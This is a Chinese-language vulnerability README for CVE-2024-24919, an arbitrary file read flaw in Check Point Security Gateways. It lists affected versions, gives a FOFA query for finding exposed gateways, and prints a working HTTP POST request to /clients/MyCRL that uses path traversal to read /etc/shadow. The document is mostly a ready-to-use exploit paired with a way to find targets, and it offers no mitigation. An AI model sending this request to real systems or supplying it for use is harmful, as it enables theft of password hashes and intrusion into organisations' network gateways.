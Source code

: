# CVE-2024-24919

> **Created by：**A-little-dragon
> **Team：**TracelessSec
> **漏洞描述：**Check Point 安全网关任意文件读取漏洞 



## 0x01 产品介绍

Check Point Security Gateways 是 Check Point Software 提供的一系列网络安全解决方案。这些解决方案包括下一代防火墙（NGFW）、数据中心安全网关和 AI 驱动的量子网关，旨在为企业提供针对复杂网络威胁的先进防护。它们通过集成的威胁防护、统一的安全管理和策略控制，确保网络、云、移动和端点的安全。

## 0x02 漏洞描述

Check Point Security Gateways 任意文件读取漏洞(CVE-2024-24919)存在在野利用，远程攻击者可以通过构造恶意请求读取服务器上的任意文件，造成敏感信息的泄漏。

## 0x03 影响范围

```
Check Point Security Gateways R77.20 (EOL)
Check Point Security Gateways R77.30 (EOL)
Check Point Security Gateways R80.10 (EOL)
Check Point Security Gateways R80.20 (EOL)
Check Point Security Gateways R80.20.x
Check Point Security Gateways R80.20SP (EOL)
Check Point Security Gateways R80.30 (EOL)
Check Point Security Gateways R80.30SP (EOL)
Check Point Security Gateways R80.40 (EOL)
Check Point Security Gateways R81
Check Point Security Gateways R81.10
Check Point Security Gateways R81.10.x
Check Point Security Gateways R81.20
其他受影响组件
无
```

## 0x04 FOFA语法

```bash
app="Check_Point-SSL-Network-Extender"
```

## 0x05 漏洞复现

```txt
POST /clients/MyCRL HTTP/1.1
Host: ip
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow
```

![Untitled](image/Untitled.png)